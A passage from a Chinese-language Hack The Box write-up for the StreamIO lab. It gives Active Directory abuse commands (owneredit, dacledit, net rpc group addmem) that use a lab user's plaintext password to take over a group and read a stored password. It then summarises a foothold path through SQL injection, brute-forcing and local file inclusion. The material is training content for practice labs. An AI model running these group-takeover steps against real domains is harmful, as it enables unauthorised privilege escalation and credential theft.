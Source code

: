 ![](/htb_img/WEBRESOURCE2bdfac7bea4a8c2947ad730be848d373image.png)

先拿到CORE STAFF组权限：

修改所有者：

python owneredit.py -action write -new-owner 'JDgodd' -target 'CORE STAFF' 'STREAMIO.HTB'/'JDgodd':'JDg0dd1s@d0p3cr3@t0r'

![](/htb_img/WEBRESOURCE4eac49f935eb4e0e5f0c41f797a9aa2aimage.png)

修改DACL权限，以便于读取密码：

授予JDgodd向CORE STAFF组添加用户的权限：

dacledit.py -action 'write' -rights 'WriteMembers' -principal 'JDgodd' -target-dn 'CN=CORE STAFF,CN=USERS,DC=STREAMIO,DC=HTB' 'STREAMIO.HTB'/'JDgodd':'JDg0dd1s@d0p3cr3@t0r'

![](/htb_img/WEBRESOURCE8819df6fcb6f6386216581c065c9ef59image.png)

把自己添加到CORE STAFF组内：

net rpc group addmem "CORE STAFF" "JDgodd" -U "STREAMIO.HTB"/"JDgodd"%"JDg0dd1s@d0p3cr3@t0r" -S "dc.STREAMIO.HTB"

![](/htb_img/WEBRESOURCE772010643d40cc7b821083c458e09fc1image.png)

再次查看权限：

![](/htb_img/WEBRESOURCE03f1c7d3ca316a89b42bc634c661dc16image.png)

读取密码：

![](/htb_img/WEBRESOURCEabb6041f94fd326c8331254cc9829084image.png)

登录：

![](/htb_img/WEBRESOURCE3df148660b982264a76982c9c32a6b94image.png)

# 总结

这台靶机的难点在于获取立足点较为曲折，简单梳理一下：

web：

1、首先是注册用户，添加域名，需要反复查看证书是否变化，域名有两个，第一次卡住，没发现域名变化。

2、使用新域名，再次目录扫描，发现查找页面，sql注入，是个sqlserver手动注入，需要熟悉。

3、由于是通过websql注入获取的账户密码，通过获取到的账户密码，进行web爆破，获取到一个合法用户，这里的手动登录有问题，不会弹出错误，也不清楚是不是系统存在bug，所以遇到这种情况还是尽量使用工具爆破一波再说。

4、登录后没有变化，但是可以进去之前403的admin目录，注意页面功能的？后面的参数可以fuzz，第二次卡住。

5、fuzz发现debug，参数给index.php发现有反应，是个文件包含，需要配合伪协议base64导出，发现数据库账号密码，但是没有连接条件。

6、第三次卡住，需要再次目录扫描admin目录，发现master.php文件，通过文件包含可以读取源码。
